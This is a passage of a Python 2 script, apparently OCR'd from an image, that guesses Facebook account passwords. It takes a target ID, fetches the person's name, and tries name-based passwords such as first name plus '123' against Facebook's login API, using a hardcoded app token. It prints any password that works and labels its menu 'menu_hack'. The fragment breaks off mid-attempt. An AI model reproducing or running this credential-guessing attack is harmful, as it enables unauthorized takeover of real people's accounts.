 		id = raw_input("\033[1;91m[+] \033[1;92mTarget ID \033[1;91m:\033[1;97m ")
		mkdir('\033[1;91m[✺] \033[1;92mWait a minute \033[1;97m...')
		r = requests.get("https://graph.facebook.com/"+id+"?access_token="+fb_token)
		a = json.loads(r.text)
		print '\033[1;91m[➹] \033[1;92mName\033[1;97m : '+a['name']
		mkdir('\033[1;91m[+] \033[1;92mCheck \033[1;97m...')
		time.sleep(2)
		mkdir('\033[1;91m[+] \033[1;92mOpen password \033[1;97m...')
		time.sleep(2)
		print 42*"\033[1;97m═"
		pz1 = a['first_name']+'123'
		data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
		y = json.load(data)
		if 'access_token' in y:
			print "\033[1;91m[+] \033[1;92mFound"
			print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
			print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
			print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz1
			raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
			menu_hack()
		else:
			if 'www.facebook.com' in y["error_msg"]:
				print "\033[1;91m[+] \033[1;92mFound"
				print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
				print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
				print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
				print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz1
				raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
				menu_hack()
			else:
				pz2 = a['first_name'] + '12345'
				data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
				y = json.load(data)
				if 'access_token' in y:
					print "\033[1;91m[+] \033[1;92mFound"
					print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
					print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
					print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz2
					raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
					menu_hack()
				else:
					if 'www.facebook.com' in y["error_msg"]:
						print "\033[1;91m[+] \033[1;92mFound"
						print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
						print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
						print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
						print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz2
						raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
						menu_hack()
					else:
						pz3 = a['last_name'] + '123'
						data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
						y = json.load(data)
						if 'access_token' in y:
							print "\033[1;91m[+] \033[1;92mFound"
							print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
							print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
							print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz3